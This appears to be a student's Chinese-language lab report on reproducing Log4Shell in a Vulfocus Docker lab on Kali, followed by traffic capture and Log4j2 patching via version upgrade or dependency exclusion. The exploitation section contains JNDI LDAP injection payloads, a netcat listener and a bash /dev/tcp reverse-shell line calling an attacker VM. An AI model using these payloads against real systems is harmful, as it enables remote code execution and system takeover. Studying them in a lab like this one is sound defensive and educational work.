




## 实验记录

#### 实验环境

- windows 10
- virtualbox虚拟机kali 2023

#### 基础运行环境准备

- 准备一个多重加载镜像的kali虚拟机

- 为虚拟机设置两个网卡，第一个网卡设为网络地址转换NAT，第二个网卡设置为仅主机网络

- 使用`ip a`命令查看两块网卡的ip

- 发现未能成功分配ip地址，输入命令`sudo vim /etc/network/interfaces`

- 编辑文件增加如下内容：

- ```
  allow-hotplug eth0
  iface eth0 inet dhcp
  
  allow-hotplug eth1
  iface eth1 inet dhcp
  ```

  

- 再输入命令

- ```
  sudo ifdown eth0 && sudo ifup eth0
  sudo ifdown eth1 && sudo ifup eth1
  cat /etc/os-release
  ```

  

- 查看发行版本信息：`lsb_release -a`

- 查看内核信息：`uname -a`

- 再次使用`ip a`命令查看网卡ip地址，分配成功

- 

- 配置ssh服务

  - 在宿主机命令行中用ssh命令连接kali虚拟机，显示ssh服务未开启

    

  - 在虚拟机中:

    - 设置ssh开机自启动：`sudo systemctl enable ssh`
    - 启动ssh：`sudo systemctl start ssh`
    - 查看ssh：`ps aux | grep ssh`

    

  - 在宿主机上重新通过ssh连接kali

    

  - 配置免密登录，报错

    ```
    ssh-copy-id -i ~/.ssh/con ssh-copy-id -i ~/.ssh/id_rsa.pub kali@IP ssh kali@IP
    ```

    

  - 网上查找到解决方案：[在配置SSH免密登录时报错：/usr/bin/ssh-copy-id: ERROR: failed to open ID file '/root/.pub': 没有那个文件或目录](https://blog.csdn.net/chenyao1994/article/details/104337249)

    输入命令：`ssh-keygen -t dsa`

    

  - 重新配置ssh免密登录，成功

    

#### 安装docker和拉取镜像

- 在kali命令行中输入命令

  ```
  git clone https://github.com/c4pr1c3/ctf-games.git 
  cd ctf-games 
  ls -l 
  cd fofapro 
  ls
  ```

  

- 使用命令`sudo apt update`但报错

  尝试ping百度不通，可能是DNS的配置问题

  参考资料：[kali在执行 apt-get update 命令时报错的解决方法](https://blog.csdn.net/weixin_45588247/article/details/115762297)

  

- 配置kali的DNS配置文件`vim /etc/resolv.conf`

  在文件中添加：

  ```
  nameserver 223.6.6.6
  nameserver 8.8.8.8
  ```

  

- 修改完成后，重新update，成功

  

- 安装docker，但报错

  （其实这里是个乌龙，我一直搞漏了，应该是docker.io，但是后面才发现，这是后话了）

  

- 尝试重新安装docker

  ```
  sudo apt update
  sudo apt remove --purge docker.io
  sudo apt install docker.io
  ```

  

- 我以为这里以及安装成功了，但并不完全（还是后话）

- 添加用户：`sudo usermod -a -G docker kali`

- 切换到root用户模式：`sudo su -`

- 编辑文件：`vim /etc/docker/daemon.json`

  在其中添加

  ```
  {
      "registry-mirrors":["https://docker.mirrors.ustc.edu.cn/"]
  }
  ```

- 重启docker引擎服务：`systemctl restart docker`

- `exit`退出root权限

  

- 拉取vulfocus镜像：`docker pull vulfocus/vulfocus:latest`

- 报错

  重新登录一下，发现最末尾出现dockers了

  ```
  id
  ssh @IP
  id
  ```

  

- 再次尝试，报错：unauthorized：authentication required

  

- 查询资料发现可能的三种情况（参考资料：https://blog.51cto.com/u_16175455/6728852）

- 先尝试登录docker

  

- 但依然报错，试着ping了一下，发现是网络问题

  图书馆的网不太好，搬回家了，解决了（中间比较曲折，忘截图了）

#### 快速上手vulfocus

- 进入vulfocus目录，执行start.sh，报错，说需要jq

  

- 此时此刻，我意识到，我漏了前面安装jq那一步。

  也就是在此刻，我几经对比，我终于发现了之前漏下的**.io**

  重新安装一下

  `sudo apt install -y docker.io docker-compose jq`

  

- 再次执行start.sh，成功

- 接着`docker ps`

  

- 在宿主机搜索IP，即可打开vulfocus页面

- 

- 登录后，在镜像管理页面一键同步刷新后，即可下载所需镜像。

#### 检测log4sell漏洞存在性

- 验证漏洞存在性有两种方法

  - 确认受漏洞影响组件的版本号
  - 源代码审计

- 下面是源代码审计方法

- 在vulfocus上启动镜像后查看容器名`docker ps`（我这儿当时网页反应有点慢，一连启动了两个）

  

- 进入容器：`docker exec -it <容器名> bash`

- 查看容器目录：`ls`

- 发现有文件`demo.jar`

  

- 拉取文件到宿主机，查看目录，拉取完成

  ```
  sudo docker cp <容器名称或ID>:<容器内文件路径> <宿主机目标路径>
  ls
  ```

  

- 对该文件进行反编译，找到`Log4j2RceApplic` 类，验证漏洞存在

  

#### 验证漏洞可利用性

- 打开[DNSLog](http://www.dnslog.cn/)，获取子域名

  

- 用burp适配的浏览器访问`192.168.56.103:58172/hello?payload=111` ，用burp查看抓包

  ```
  #ldap://dnslog获取的随机域名/任意
  payload=${jndi:ldap://kw511z.dnslog.cn/exp}
  ```

- 修改payload参数，并对payload字段进行编码

- 在DNSlog获得解析记录

#### Log4shell漏洞利用

- 准备另一台作为攻击者的虚拟机，在上面下载JNDTIExploit

  `https://github.com/bkfish/Apache-Log4j-Learning.git`

- 解压`unzip JNDIExploit.v1.2.zip`

- 攻击者启动777端口，等待受害者主机victim反弹回连getshell`nc -l -p 7777`

- 用JNDI-Injection-Exploit搭建服务

  ```
  java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C “命令” -A “ip（攻击机）”
  ```

- 构造fantanshell的payload`bash -i >& /dev/tcp/192.168.56.105/7777 0>&1`

- 进行base64加密

- 执行JNDI-Injection-Exploit

- 再用Burp抓包，修改payload参数

#### 流量检测与防护

- 获取容器PID

  ```
  docker ps
  docker inspect -f '{{.State.Pid}}' <container_name>
  ```

  

- 进入容器的网络命名空间：`nsenter -t <container_pid> -n`

- 使用网络抓包工具捕获和分析流量：`tcpdump -i eth0 -w captured_traffic.pcap`

  

- 打开`captured_traffic.pcap` 文件，查看所有访问到容器的流量

  

#### Log4j2漏洞修复

###### 方法一：版本覆盖

- 在项目主 `pom.xml` 中引入Log4j2的最新版本进行版本覆盖：

- ```xml
  <dependencies>
  	        <dependency>
                  <groupId>org.apache.logging.log4j</groupId>
                  <artifactId>log4j-api</artifactId>
                  <version>2.17.0</version>
              </dependency>
              <dependency>
                  <groupId>org.apache.logging.log4j</groupId>
                  <artifactId>log4j-core</artifactId>
                  <version>2.17.0</version>
              </dependency>
              <dependency>
                  <groupId>org.apache.logging.log4j</groupId>
                  <artifactId>log4j-to-slf4j</artifactId>
                  <version>2.17.0</version>
              </dependency>
  </dependencies>
  ```

- 代码级别验证

  ```java
  @RunWith(SpringRunner.class)
  @SpringBootTest
  @Log4j2
  public class SpringTests {
   
      @Test
      public void test(){
          log.error("${jndi:ldap://127.0.0.1:1389/#Exploit}");
          log.error("${}","jndi:ldap://127.0.0.1:1389/#Exploit");
      }
  }
  ```

- Idea插件maven helper进行验证

###### 方法二：将项目中的Log4j2排除依赖

- 利用 Maven Helper 插件搜索出，依赖关系，在引入依赖的节点直接将 Log4j2 的引入排除掉

  ```xml
          <dependency>
              <groupId>org.springframework.boot</groupId>
              <artifactId>spring-boot-starter-jdbc</artifactId>
              <exclusions>
                  <exclusion>
                      <groupId>org.apache.logging.log4j</groupId>
                      <artifactId>log4j-to-slf4j</artifactId>
                  </exclusion>
              </exclusions>
          </dependency>
  ```

  